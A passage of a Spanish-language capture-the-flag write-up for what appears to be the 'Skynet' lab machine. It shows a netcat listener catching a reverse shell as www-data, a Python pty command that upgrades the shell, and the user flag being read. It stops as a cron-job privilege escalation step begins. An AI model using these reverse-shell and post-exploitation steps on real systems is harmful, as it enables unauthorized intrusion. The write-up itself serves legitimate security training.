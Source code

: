 💻 Resultado:
````
Bash

nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.11.147.155] from (UNKNOWN) [10.10.40.222] 36946
...
whoami
www-data
````
2. Estabilización de la Shell

La shell inicial es básica. La estabilizamos usando Python para obtener una shell TTY completamente funcional, lo cual facilita la navegación.

💻 Comando:
````
Bash

python -c 'import pty; pty.spawn("/bin/bash")'
````

3. Localización de la Flag de Usuario
Una vez dentro, buscamos la flag de usuario (user.txt). Basándonos en la enumeración de usuarios del sistema (Paso 14), el archivo de usuario probablemente se encuentra en el directorio /home/milesdyson o /home/skynet.

Navegamos al directorio de milesdyson y encontramos el archivo:

💻 Comandos y Resultado:
````
Bash

ls /home/milesdyson
backups mail share user.txt
cat /home/milesdyson/user.txt
7ce...
````
✅ ¡FLAG DE USUARIO CONSEGUIDA!

<img width="991" height="339" alt="conseguimos el shell y la flag" src="https://github.com/user-attachments/assets/d83b48fc-2104-463b-af85-c7abc52c4e91" />


## ⏫ Paso 19: Escalada de Privilegios - Secuestro de Cron Job

Tras la enumeración del sistema, el binario SUID /usr/bin/menu no fue la ruta de escalada. Sin embargo, en el proceso de búsqueda, encontramos un job automatizado que se ejecuta como root.

1. Enumeración del Directorio Personal de Milesdyson
   
Navegamos por el directorio /home/milesdyson y encontramos el directorio backups.

<img width="750" height="243" alt="directorio personal y archivo backup" src="https://github.com/user-attachments/assets/fe321c8f-167d-42a4-8285-af898471d942" />
